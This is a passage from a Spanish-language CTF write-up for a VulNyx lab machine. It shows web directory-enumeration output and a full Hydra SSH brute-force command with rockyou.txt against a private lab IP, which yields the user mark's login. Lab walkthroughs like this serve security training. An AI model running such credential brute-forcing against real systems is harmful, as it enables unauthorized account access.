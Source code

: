 ```bash
[18:46:43] Starting: 
[18:48:21] 403 -  277B  - /icons/                                           
[18:49:09] 200 -  182B  - /note.txt                                         
[18:50:03] 403 -  277B  - /server-status                                    
[18:50:03] 403 -  277B  - /server-status/
                 
Task Completed
```

En la nota para *Mark*, parece que nos dan un par de pistas sobre un servicio en un puerto 9999 interno y una clave privada de *Peter*.

#### Contenido de note.txt:
![](../assets/img/gen-vulnyx-writeup/3.png)

## Explotación
Obviamente, no llegamos a ninguno de los servicios, pero al menos tenemos un par de usuarios para probar con fuerza bruta sobre el servicio SSH y el diccionario *rockyou.txt*.

Después de varios minutos, encontramos credenciales válidas para *Mark*:

```
> hydra -L files/users.txt -P /usr/share/wordlists/rockyou.txt 192.168.0.45 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-16 18:58:25
[DATA] max 4 tasks per 1 server, overall 4 tasks, 28688798 login tries (l:2/p:14344399), ~7172200 tries per task
[DATA] attacking ssh://192.168.0.45:22/
[STATUS] 36.00 tries/min, 36 tries in 00:01h, 28688762 to do in 13281:51h, 4 active
[STATUS] 28.00 tries/min, 84 tries in 00:03h, 28688714 to do in 17076:37h, 4 active
[STATUS] 26.29 tries/min, 184 tries in 00:07h, 28688614 to do in 18190:15h, 4 active
[STATUS] 25.60 tries/min, 384 tries in 00:15h, 28688414 to do in 18677:22h, 4 active
[22][ssh] host: 192.168.0.45   login: mark   password: *******
```
